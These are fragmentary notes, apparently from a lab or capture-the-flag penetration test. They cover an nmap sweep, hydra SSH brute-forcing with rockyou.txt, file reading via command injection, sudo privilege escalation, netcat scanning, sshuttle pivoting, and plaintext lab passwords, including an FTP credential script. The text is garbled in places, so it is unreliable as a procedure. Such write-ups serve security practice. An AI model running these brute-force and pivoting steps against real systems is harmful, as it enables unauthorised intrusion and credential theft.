



```
nmap -oA nmap/initial 10.0.0.0/24
-oA all output saved to initial 
/24 ip range scan
```

two hose revealed host are found on 10.0.0.1, and 10.0.0.2/24


command injection reading the files system. shrug

2 is linux system. 

linux you the cm injection to read files on the system until i can think of a way to get a shell. found some credentials in davids directory


```
hydra -l david -P /home/htb/wordlist/rockyou.txt 10.0.0.2 ssh
```

```
hydra -l root -P /home/htb/wordlist/rockyou.txt 10.0.0.2 ssh
```

output

ran linenum.sh noticed something odd. then i ran sudo -l david can sudo anything without the root password. Just need to authiticate with his. 

So the system is pretty bare for living off the land type stuff i can move over a nmap binary. All i need is nc to enumerate possible host. i have heard nmap scans are look

```
Connection to 10.100.10.25 22 port [tcp/*] succeeded!  
Connection to 10.100.10.80 22 port [tcp/*] succeeded!
Connection to 10.100.10.139 22 port [tcp/*] succeeded!

```

```
Connection to 10.100.10.25 80 port [tcp/*] succeeded!
ection to 10.100.10.25 80 port [tcp/*] succeeded!

```

sshuttle found ssh open on 10.100.10.139

```
sshuttle -r david@10.0.02 10.100.10.0/24
```

ftp

creds certs





logged in using the flag . used 

```
ssh root@10.100.10.139 		password = AllMyBas3srBELONGt0m3
```

Found some kind of ftp_check.sh script amde by sthompson

```
[root@rhel-2394-11922 Desktop]# cat ftp_check.sh
#!/bin/sh
HOST='10.100.10.139'
USER='sthompson'
PASSWD='hackersW4ntT0Bm3'
x=1
while [ $x -lt 2 ]; do
ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
ls
quit
END_SCRIPT
sleep 30;
done
exit 0

```

